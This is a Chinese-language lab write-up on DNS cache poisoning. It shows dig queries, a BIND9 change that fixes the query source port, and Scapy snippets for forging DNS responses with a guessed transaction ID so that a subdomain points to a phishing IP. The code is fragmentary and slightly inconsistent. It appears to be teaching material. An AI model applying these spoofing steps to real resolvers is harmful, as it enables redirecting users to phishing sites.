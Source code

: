 ## 实验一

#### 1. 在攻击者主机上，查询imool.net权威域名服务器地址，确定攻击脚本需用到的权威域名服务器源IP。

```shell
dig NS dnslab.imool.net
dig ns1.imool.net
```

<img src="./assets/image-20240509195416912.png" alt="image-20240509195416912" style="zoom:50%;" />

<img src="./assets/image-20240509195426814.png" alt="image-20240509195426814" style="zoom:50%;" />

#### 2. 在本地域名服务器机器上，修改本地域名服务器配置，将BIND9随机化端口设置为固定端口，并重新启动BIND9。

```shell
vi /etc/bind/named.conf.options
query-source port 10001; #该端口号可设置为超过1024的、没有被系统服务占用的任意值
systemctl restart bind9
```

<img src="./assets/image-20240509200721476.png" alt="image-20240509200721476" style="zoom:50%;" />

#### 3. 在攻击者主机上，使用scapy编写代码，实现对DNS 响应报文的伪造。重点关注以下参数：

```shell
victim_subdomain = "aaa.imool.net" #要攻击的imool.net子域名
fake_ip = "192.168.4.100" #将imool.net子域名解析到钓鱼网站的IP
authoritative_ip ="60.122.0.1" #在步骤1中获取到的权威域名服务器ip作为源地址
localdns_ip = "192.168.3.53" #要污染的本地域名服务器的IP
authoritative_port= 53 #权威域名服务器的端口，DNS默认为53端口
localdns_port= 10001 #步骤2设置的固定端口
fake_rr = DNSRR(rrname=victim_subdomain, type=1, ttl=10, rdata=fake_ip) #设定一个较大ttl值能增加虚假缓存的保留时间
```

#### 4. 猜测DNS响应报文中的TXID字段。

由于本地域名服务器向imool.net权威域名服务器发出的DNS查询报文中的TXID未知，其他参数已在前面步骤中获得，这里对TXID进行**碰撞猜测**。使用猜测的TXID构造DNS响应报文。主要部分代码如下：

```
dns_layer = DNS(id=？, qr=1, aa=1, qd=DNSQR(qname=victim_domain), ancount=1,an=fake_rr)  #id代表TXID
```